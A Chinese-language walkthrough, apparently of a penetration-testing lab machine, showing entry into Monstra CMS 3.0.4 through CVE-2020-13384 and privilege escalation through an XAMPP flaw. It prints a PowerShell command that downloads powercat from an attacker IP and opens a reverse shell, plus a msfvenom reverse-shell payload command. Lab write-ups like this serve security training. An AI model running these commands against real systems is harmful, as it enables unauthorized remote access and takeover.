

# 信息收集

## nmap


# web服务


需要添加一下域名解析到`/etc/hosts`中

```
echo "192.168.129.180 monster.pg" >> /etc/hosts
```

users界面下有两个用户，一个`admin`，一个`mike`


并且右下角还有版本号，该版本存在任意文件上传漏洞**（CVE-2020-13384）**，但是需要先登录

我们使用`admin`和邮箱的前半部分(wazowski)即可登录到后台

利用网上已有的exp，会生成一个后门

[wcheng729/Monstra-3.0.4-RCE: Monstra CMS 3.0.4 Authenticated RCE via theme injection](./https://github.com/wcheng729/Monstra-3.0.4-RCE)


访问后门即可命令执行，然后反弹shell就好了


上传`powercat`，利用`powercat`反弹`shell`

```
cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 8002 -e cmd
```


# 提权

 运行`winPEASx64`发现有`httpd.exe`运行

在C盘下发现了xampp文件夹，其中的`properties.ini`是配置文件，其中xampp的版本为7.3.10-1


通过搜索相关漏洞发现存在7.4.3版本的本地提权漏洞


看了一下references中的文章，是要修改replace的目录，修改为恶意exe文件的目录

我们使用msfvenom生成一个恶意的exe

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.222 lport=8002 -f exe -o shell.exe
```


然后再powershell下运行


然后等待一会就可以得到本地管理员权限的shell

